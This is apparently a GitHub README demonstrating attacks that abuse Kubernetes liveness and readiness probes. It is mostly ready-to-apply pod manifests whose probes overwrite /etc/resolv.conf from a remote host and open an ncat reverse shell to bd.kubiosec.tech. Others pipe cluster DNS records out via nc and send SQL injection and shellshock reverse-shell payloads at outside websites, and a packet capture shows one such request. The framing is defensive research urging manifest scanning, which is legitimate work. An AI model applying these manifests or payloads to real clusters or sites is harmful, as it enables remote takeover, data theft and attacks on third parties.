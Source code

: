 ## Exploiting applications using livenessProbes in Kubernetes
### Introduction
Startup, readiness, and liveness probes are very well described in the Kubernetes documentation. <br>
Kubelet uses these probes defined in the pod manifest to verify whether a pod is booting, ready to accept traffic and still alive.<br>
<br>
It is `kubelet` who actually executes the probes (and not the pod itself). <br>

There are different ways the probes are executed. <br>
- httpGet <br>
- exec <br>

The problems described here are considered 'as designed', as you should download containers from a trusted source according to the reviewers. <br>
The examples below shows that trusted sources of container images will not solve the problem, neither will image scanning. <br><br>
To prevent an attack from happening, it is mandatory to scan the Kubernetes pod and deployment manifests rigorously before deploying. <br>

### Examples1: Overwriting files on the pod filesystem - spoofing websites
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec15
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - curl
        - bd.kubiosec.tech:8080/host.txt
        - -o 
        - /etc/resolv.conf
      initialDelaySeconds: 5
      periodSeconds: 5
EOF
```

### Examples2: Installing applications the pod at deployment (BE PATIENT ... takes about 1min)
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec39
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    readinessProbe:
      exec:
        command:
        - apt-get 
        - update
      initialDelaySeconds: 5
      periodSeconds: 10
      timeoutSeconds: 60
    livenessProbe:
      exec:
        command:
        - apt-get 
        - install
        - -y
        - curl
      initialDelaySeconds: 60
      periodSeconds: 100
      timeoutSeconds: 60
EOF
```
Even better -- command chaining :-)
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec16
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - bash
        - -c
        - apt-get install ncat ; ncat -e /bin/bash bd.kubiosec.tech 8889 &
      initialDelaySeconds: 30
      periodSeconds: 5
EOF
```
SVC extraction (You can also use UDP to extract information)
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec21
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - bash
        - -c
        - dig +noall +answer srv any.any.svc.cluster.local | nc bd.kubiosec.tech  8889 
      initialDelaySeconds: 30
      periodSeconds: 5
EOF
```
### Examples3: Attacking http(s) endpoints using sql injection, XXS, ... 

```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness3
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      httpGet:
        host: www.xxxx.com
        path: /?'OR 1=1--
        port: 8080
        httpHeaders:
          - name: User-Agent
            value: xxxxxxxxx
EOF
```
```
22:03:04.693794 IP 192.168.0.131.50723 > 198.199.124.250.http-alt: Flags [P.], seq 1:116, ack 1, win 2053, options [nop,nop,TS val 2487114541 ecr 6590553], length 115: HTTP: GET /?'OR 1=1-- HTTP/1.1
  0x0000:  ac22 058e 607c 3c22 fb51 bf41 0800 4500  ."..`|<".Q.A..E.
  0x0010:  00a7 0000 4000 4006 3564 c0a8 0083 c6c7  ....@.@.5d......
  0x0020:  7cfa c623 1f90 8580 94d6 96d2 2b3d 8018  |..#........+=..
  0x0030:  0805 c39c 0000 0101 080a 943e 5b2d 0064  ...........>[-.d
  0x0040:  9059 4745 5420 2f3f 274f 5220 313d 312d  .YGET./?'OR.1=1-
  0x0050:  2d20 4854 5450 2f31 2e31 0d0a 486f 7374  -.HTTP/1.1..Host
  0x0060:  3a20 7777 772e 7261 6461 7268 6163 6b2e  :.www.radarhack.
  0x0070:  636f 6d3a 3830 3830 0d0a 5573 6572 2d41  com:8080..User-A
  0x0080:  6765 6e74 3a20 4d79 5573 6572 4167 656e  gent:.MyUserAgen
  0x0090:  740d 0a41 6363 6570 743a 202a 2f2a 0d0a  t..Accept:.*/*..
  0x00a0:  436f 6e6e 6563 7469 6f6e 3a20 636c 6f73  Connection:.clos
```
### Examples4 : Attacking http(s) endpoints using shellshock
```
apiVersion: v1
kind: Pod
metadata:
   name: radarhack-pod3
   labels:
      pod: radarhack
spec:
  containers:
  - name: radarhack
    image: docker.io/xxradar/naxsi5
    ports:
    - containerPort: 80
    livenessProbe:
      httpGet:
        host: www.radarhack.com
        path: /index.html?test=' or 1=1--
        port: 8080
        httpHeaders:
        - name: Custom-Header
          value: Awesome
        - name: X-Frame-Options
          value: () { :;};echo;/bin/nc -e /bin/bash 192.168.81.128 443
      initialDelaySeconds: 3
      periodSeconds: 3
 ```

### Conclusion
Many things are written on securely deploying applications on kubernetes. Keep in mind that all aspects need full attention. Generating and building Kubernetes manifest is also developping code.
